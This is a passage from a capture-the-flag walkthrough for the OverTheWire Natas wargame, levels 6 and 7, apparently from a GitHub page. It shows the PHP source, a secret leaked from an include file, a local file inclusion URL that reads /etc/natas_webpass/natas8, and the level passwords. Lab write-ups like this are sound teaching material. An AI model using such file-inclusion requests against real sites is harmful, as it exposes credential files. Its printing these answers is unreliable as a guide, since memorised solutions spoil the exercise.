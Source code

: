 ```php+HTML

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

There we can see it includes **"includes/secret.inc"** We go to that file and we get the secret 

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

We input that secret we get 

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

password : **7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**

### <a id="7">natas7</a>

There are 2 links for home and about. When we look in the source code we get 

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

the home and about page is accessed with

http://natas7.natas.labs.overthewire.org/index.php?page=home

So we try

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

Where we get the password

password : **DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**

### <a id="8">natas8</a>
